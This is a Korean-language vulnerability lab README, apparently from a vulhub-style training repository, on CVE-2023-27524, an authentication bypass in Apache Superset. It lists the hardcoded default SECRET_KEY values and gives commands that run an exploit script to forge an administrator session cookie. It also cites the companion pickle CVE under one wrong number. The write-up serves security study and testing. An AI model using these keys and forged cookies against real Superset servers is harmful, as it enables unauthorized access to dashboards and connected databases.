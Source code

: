 # Apache Superset Hardcoded JWT Secret Key Leads to Authentication Bypass (CVE-2023-27524)
> 화이트햇 스쿨 3기 23반 노은서

[영문 버전](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.md) [중문 버전](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.zh-cn.md)


## 개요

- 데이터 시각화 오픈소스 플랫폼인 Apache Superset에는 하드코딩된 JWT 비밀 키 취약점(CVE-2023-27524)이 존재
- Superset은 세션 쿠키를 서명하는 데 사용되는 SECRET_KEY 값을 기본값으로 제공함
- 관리자가 이 기본 키를 변경하지 않으면 공격자는 유효한 세션 쿠키를 위조하고 임의의 사용자 또는 관리자 권한을 가진 사용자로 인증할 수 있음
- 이를 통해 공격자는 Superset 대시보드, 연결된 데이터베이스에 무단으로 접근할 수 있음
- Python pickle 취약점인 [CVE-2023-27941](https://github.com/vulhub/vulhub/blob/master/superset/CVE-2023-37941/README.md) 과 결합되면 인증 우회 후 역직렬화 취약점을 통해 원격 코드 실행까지 가능


## 환경 구성

명령어를 사용해 Apache Superset 2.0.1 서버를 시작

```
docker compose up -d
```

- 서버를 열면, `http://your-ip:8088`를 통해 Superset 서버에 접속 가능
- default 로그인: admin / vulhub 


## PoC

Superset은 다음과 같은 `SECRET_KEY` 값 중 하나를 기본값으로 하드코딩해 사용함으로써 취약점 발생 원인을 제공함:

- `\x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h` (version < 1.4.1)
- `CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET` (version >= 1.4.1)
- `thisISaSECRET_1234` (deployment template)
- `YOUR_OWN_RANDOM_GENERATED_SECRET_KEY` (documentation)
- `TEST_NON_DEV_SECRET` (docker compose)

다음 명령어로 [CVE-2023-27524.py](CVE-2023-27524.py)를 실행해 관리자의 세션(user_id=1)으로 위조된 쿠키를 생성

```bash
# 의존성 패키지 설치치
pip install -r requirements.txt

# user_id=1인 세션 쿠키 생성
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
```

- 이 스크립트는 알려진 디폴트 SECRET_KEY 값들을 이용해 세션 쿠키의 크랙을 시도함
- 크랙에 성공하면, user_id=1(일반적으로 관리자)인 새로운 세션 쿠키를 생성해 로그인 인증


![](1.png)

이 JWT 토큰을 GET 메소드의 HTTP 헤더에 넣으면 `Cookie: session=eyJ...`, Superset 서버의 backend endpoint (데이터베이스)에 접근이 가능

![](2.png)

## 참고 문헌

- <https://www.horizon3.ai/attack-research/disclosures/cve-2023-27524-insecure-default-configuration-in-apache-superset-leads-to-remote-code-execution/>
- <https://github.com/horizon3ai/CVE-2023-27524>

